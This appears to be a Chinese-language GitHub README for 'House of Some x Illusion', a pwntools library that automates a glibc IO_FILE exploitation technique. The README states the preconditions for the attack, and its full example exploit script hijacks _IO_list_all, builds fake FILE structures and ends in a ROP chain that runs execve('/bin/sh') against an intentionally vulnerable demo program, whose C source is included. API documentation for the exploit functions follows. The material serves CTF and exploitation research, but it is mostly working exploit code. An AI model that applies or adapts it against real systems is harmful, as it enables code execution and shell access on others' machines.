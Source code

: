 # House of Some x Illusion

一种新的IO_FILE利用思路，利用条件为

1. 已知glibc基地址
2. 可控的地址（可写入内容构造fake file）
3. 需要一次libc内任意地址写可控地址
4. 程序能正常退出或者通过exit()退出

House of some具有以下优点：

1. 无视目前的`IO_validate_vtable`检查（wide_data的vtable加上检查也可以使用）
2. 第一次任意地址写要求低
3. 最后攻击提权是栈上ROP，可以不需要栈迁移
4. 源码级攻击，不依赖编译结果

详细思路见

House of Some: https://blog.csome.cc/p/house-of-some/

House of Illusion: https://enllus1on.github.io/2024/01/22/new-read-write-primitive-in-glibc-2-38/#more

## 自动化

在exit退出之后使用如下脚本即可

```python
from House_of_some import HouseOfSome
io = process("./demo")

...

libc = ELF("./libc.so.6", checksec=None)
libc.address = libc_base
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
hos.bomb(io)
```

- controled_addr：可写地址，作为延长的IO_list_all中的io file写入的起始地址

### 举个例子

```python
from pwn import *
from House_of_some import HouseOfSome

context.log_level = 'debug'
context.arch = 'amd64'

tob = lambda x: str(x).encode()
io = process("./demo")

io.recvuntil(b"[+] printf: ")
printf_addr = int(io.recvuntil(b"\n", drop=True), 16)
log.success(f"printf_addr: {printf_addr:#x}")

def add(size):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"size> ", tob(size))
    
def write(addr, size, content):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"size> ", tob(size))
    io.sendlineafter(b"addr> ", tob(addr))
    io.sendafter(b"content> ", content)

def leave():
    io.sendlineafter(b"> ", b"3")

libc = ELF("./libc.so.6", checksec=None)
add(0x200)
io.recvuntil(b"[+] done ")
heap_addr = int(io.recvuntil(b"\n", drop=True), 16)
log.success(f"heap_addr: {heap_addr:#x}")

libc_base = printf_addr - libc.symbols["printf"]
log.success(f"libc_base: {libc_base:#x}")

libc.address = libc_base
fake_file_start = heap_addr + 0xe0 + 0xe8
# 上方是信息收集
# ------------------------------------------------- # 
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
# 构造第一个任意地址写原语
payload = hos.hoi_read_file_template(fake_file_start, 0x400, fake_file_start, 0)
io.sendlineafter(b"content> ", payload)
write(libc.symbols["_IO_list_all"], 8, p64(heap_addr)) # 劫持_IO_list_all
leave() # exit

hos.bomb(io) # 一句话攻击

io.interactive()
```

demo.c源码

```python
#include<stdio.h>

int main(){
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    int c;
    printf("[+] printf: %p\n", &printf);
    while (1) {
        printf(
            "1. add heap.\n"
            "2. write libc.\n"
            "3. exit\n"
            "> "
        );
        scanf("%d", &c);
        if(c == 1) {
            int size;
            printf("size> ");
            scanf("%d", &size);
            char *p = malloc(size);
            printf("[+] done %p\n", p);
            printf("content> ");
            read(0, p, size);
        } else if(c == 2){
            size_t addr, size;
            printf("size> ");
            scanf("%lld", &size);
            printf("addr> ");
            scanf("%lld", &addr);
            printf("content> ");
            read(0, (char*)addr, size);
        } else {
            break;   
        }
        
    }
    
}
```

## Docs

### class HouseOfSome(libc, controled_addr, zero_addr=libc.symbols['_environ']-0x10)

**Parameters**

- libc([ELF](https://docs.pwntools.com/en/latest/elf/elf.html#pwnlib.elf.elf.ELF)) - libc文件ELF对象
- controled_addr(int) - 可写地址，作为延长的IO_list_all中的io file写入的起始地址
- zero_addr(int) - 内容常0的地址

house of some自动化payload生成类

**Example**

```python
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
hos.bomb(io, libc.symbols['_IO_file_underflow'] + 390)
```

#### bomb(io, retn_addr=0) -> None

直接一把梭提权，运用[pwntools自带工具ROP](https://docs.pwntools.com/en/latest/rop/rop.html)，其中执行函数为`rop.call('execve', [b'/bin/sh', 0, 0])`

**Parameters**

- io([tube](https://docs.pwntools.com/en/latest/tubes.html#pwnlib.tubes.tube.tube)) - 交互IO，详细见pwntools文档
- retn_addr(int) - (可选)在运行到IO_new_read_file栈中，存放的返回地址，用于计算返回地址与_envrion泄露的栈的偏移。如果不设置，则会从泄露的栈中寻找IO_flush_all的地址

#### read(fd, buf, len, end=0) -> bytes

**Parameters**

- fd(int) - 文件表述符
- buf(int) - 待写入的地址
- len(int) - 写入长度
- end(bool) - 是否为最后一个fake_file

#### write(fd, buf, len) -> bytes

**Parameters**

- fd(int) - 文件表述符
- buf(int) - 待读取的地址
- len(int) - 读取长度

#### bomb_raw(io, retn_addr=0) -> int

执行此函数之后，当前io处在等待输入，并即将写入ROP

**Parameters**

- io([tube](https://docs.pwntools.com/en/latest/tubes.html#pwnlib.tubes.tube.tube)) - 交互IO，详细见pwntools文档
- retn_addr(int) - (可选)在运行到IO_new_read_file栈中，存放的返回地址，用于计算返回地址与_envrion泄露的栈的偏移。如果不设置，则会从泄露的栈中寻找IO_flush_all的地址

**return**

返回泄露的栈地址，此栈地址是ROP的起始地址


